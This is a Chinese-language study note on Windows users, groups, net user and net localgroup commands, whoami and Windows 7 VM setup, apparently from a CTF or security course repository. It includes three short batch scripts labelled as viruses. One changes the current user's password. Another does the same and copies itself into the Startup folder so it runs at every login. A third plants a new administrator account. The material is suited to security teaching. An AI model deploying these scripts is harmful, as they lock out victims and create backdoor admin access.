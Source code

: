 # 学习用户与组、win8虚拟机下载配置
## 用户与组
windows 用户
- 给人使用的账户：
1. administrator	管理员账户仅次于 system 的权限
2. guest		来宾（游客） 最新权限
普通用户	在操作系统中新创建的用户

- 计算机服务组件相关账户（机器人）：
1. system	系统账户	至高权限
2. local services	本地服务账户;权限等同普通用户
3. network services  网络服务账户;权限等同普通用户

用户管理界面：

![image](https://github.com/AlphaXiao/CTF-Windows-Security/blob/main/Days/pictures/%E5%9B%BE%E7%89%8768.png)

创建新用户

![image](https://github.com/AlphaXiao/CTF-Windows-Security/blob/main/Days/pictures/%E5%9B%BE%E7%89%8769.png)

**默认**情况下，windows 系统中，**账户的密码最长有效期为 42 天**
【家文件夹】只有在对应账户首次登录之后才会生成。

1. 预定义变量 `%userprofile%`   
`%userprofile%  =  "C:\documents and settings"`   
相当于  `copy 1.bat "C:\documents and settings\「开始」菜单\程序\启动"` 
= `copy 1.bat "%userprofile%\「开始」菜单\程序\启动"`

> 可通过`echo`去查看`%userprofile%`，`echo %userprofile%`，会显示在`C:\documents and settings`

表示 当前操作系统用户的 配置文件夹（家目录）,通过该变量可以保证将文件写入不同用户的启动\桌面等个人文件夹中
  `copy 1.bat "%userprofile%\「开始」菜单\程序\启动"`
  `echo 123456 >> "%userprofile%\桌面\666666.txt"`

`%username%` 表示当前操作系统用户的账户名称

2. 账户命令
- `net user`  查看当前系统的用户列表
- `net user /add`  通过命令添加新用户
- `net user yanxinyuan 123.com /add`    新建一个账户名为yanxinyuan，密码为123.com
- `net user /del`  删除一个已有用户
- `net user shenyoujia /del`   将账户shenyoujia删除
- `net user  wangdandan 123`   将账户wangdandan的密码改为123

3.  `net user` 用户名   查看当前账户的详细信息
- `net user administrator`  查看administrator账户的详细信息

4. `whoami` 查看当前账户的计算机名和用户名
- 执行`whoami`之后，可以看下图效果
- 可以通过右键我的电脑→属性→计算机名→完整的计算机名查看

![image](https://github.com/AlphaXiao/CTF-Windows-Security/blob/main/Days/pictures/%E5%9B%BE%E7%89%8770.png)

- `Whoami /user`  显示计算机名、用户名以及SID，这个命令的作用在于，**做渗透测试时，可以用本命令看一下自己的账号级别能干什么，甚至有可能做测试的时候会拿到system权限账号（最高权限，比管理员权限高）**。SID中，最后一段表示账户的序号。新建的用户需要默认从1000开始，依次累加，administrator账户的序号是500。

![image](https://github.com/AlphaXiao/CTF-Windows-Security/blob/main/Days/pictures/%E5%9B%BE%E7%89%8771.png)

### 【创建用户小程序】
```
@echo off
echo===============================================
echo                  系统用户创建工具
echo===============================================
set /p u=请输入用户名
set /p p=请输入登录密码
net user %u% %p% /add
echo 恭喜您账户创建成功
echo 您的用户名为：%u%
echo 您的密码为：%p%
echo 注销当前账户后，在操作系统登录界面可使用新账户
pause
```

### 【修改密码病毒】
```
@echo off
net user %username% 123  把当前账户的密码改为123
```
管理员账户一般都支持远程登陆，如果这个漏洞修改的是管理员的密码就非常的危险

5. 组是用来盛放用户的容器，用户处于不同的组当中就会拥有不同的权限
- administrators        管理员组
- guests                来宾组
- users                 普通用户组
- network               网络配置组 
- print                  打印机组 
- Rmote desktop       远程桌面组
                  
A、在组中添加用户

在组管理中右击某个具体的组名称

![iamge](https://github.com/AlphaXiao/CTF-Windows-Security/blob/main/Days/pictures/%E5%9B%BE%E7%89%8772.png)

之后点击，添加，在界面中填写某个用户名，而且将该用户置于当前组中

![image](https://github.com/AlphaXiao/CTF-Windows-Security/blob/main/Days/pictures/%E5%9B%BE%E7%89%8773.png)

B、将用户从组中移除

 在组管理中找到一个组，右击组名称，选择“属性”，之后在列表中选中一个用户名，最后点击“删除”

![image](https://github.com/AlphaXiao/CTF-Windows-Security/blob/main/Days/pictures/%E5%9B%BE%E7%89%8774.png)

6. 组管理命令
- `net localgroup`   查看组列表
- `net localgroup` 组名    查看组中的成员
- `net localgroup users`  查看users组中存在哪些账户
- `net localgroup` 组名 用户名 /add
- `net localgroup administrators cuizhiqiang /add` 把账户cuizhiqiang提升为超级管理员
- `net localgroup` 组名 用户名 /del
- `net localgroup administrators cuizhiqiang /del` 把账户cuizhiqiang从管理员组移除 

### 【密码修改病毒-顽固版】
```
@echo off
copy 1.bat "%userprofile%\「开始」菜单\程序\启动"
net user %username% 123
```

> 每次受害者找回密码后，只能使用一次新密码，当第二次登录时又会被篡改

### 【获取新管理员账号病毒】
```
@echo off
copy 1.bat "%userprofile%\「开始」菜单\程序\启动"
net user wangdandan1058 123 /add
net localgroup administrators wangdandan1058 /add
 ```
 
## window7 虚拟机安装

安装时选择“自定义”（安装新的windows系统）

![image](https://github.com/AlphaXiao/CTF-Windows-Security/blob/main/Days/pictures/%E5%9B%BE%E7%89%8775.png)

在划分磁盘时，选中计算机的硬盘，之后点击“驱动器选项”

![image](https://github.com/AlphaXiao/CTF-Windows-Security/blob/main/Days/pictures/%E5%9B%BE%E7%89%8776.png)

接着点击“新建”

![image](https://github.com/AlphaXiao/CTF-Windows-Security/blob/main/Days/pictures/%E5%9B%BE%E7%89%8777.png)

当一个分区划分完毕后，选中“未分配空间”之后点击“新建”，来划分其它的分区

![image](https://github.com/AlphaXiao/CTF-Windows-Security/blob/main/Days/pictures/%E5%9B%BE%E7%89%8778.png)

安装时需要填写用户名

![image](https://github.com/AlphaXiao/CTF-Windows-Security/blob/main/Days/pictures/%E5%9B%BE%E7%89%8779.png)

设置完用户名之后，填写登录密码

![image](https://github.com/AlphaXiao/CTF-Windows-Security/blob/main/Days/pictures/%E5%9B%BE%E7%89%8780.png)

输入密钥的界面，取系勾选“自动激活”，之后点击“跳过”

![iamge](https://github.com/AlphaXiao/CTF-Windows-Security/blob/main/Days/pictures/%E5%9B%BE%E7%89%8780.png)

![iamge](https://github.com/AlphaXiao/CTF-Windows-Security/blob/main/Days/pictures/%E5%9B%BE%E7%89%8782.png)

网络类型选择

![iamge](https://github.com/AlphaXiao/CTF-Windows-Security/blob/main/Days/pictures/%E5%9B%BE%E7%89%8783.png)
